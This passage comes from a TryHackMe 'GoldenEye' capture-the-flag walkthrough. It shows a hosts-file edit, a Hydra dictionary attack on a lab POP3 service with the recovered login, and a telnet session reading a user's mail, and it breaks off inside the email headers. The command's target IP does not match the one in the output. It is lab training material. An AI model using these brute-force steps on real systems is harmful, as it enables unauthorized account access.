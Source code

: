 10. Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

## Task 3 GoldenEye Operators Training

Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

1. If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it. If you're on Linux edit your "/etc/hosts" file and add:

`<machines ip> severnaya-station.com`

If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

2. Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir
3. Try using the credentials you found earlier. Which user can you login as?
4. Have a poke around the site. What other user can you find?

`doak`

5. What was this users password?

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ hydra -l doak -P /usr/share/wordlists/rockyou.txt pop3://10.10.74.5:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 18:24:29
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 18:26:52
```

6. Use this users credentials to go through all the services you have found to reveal more emails.

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ telnet 10.10.74.5 55007
Trying 10.10.74.5...
Connected to 10.10.74.5.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
```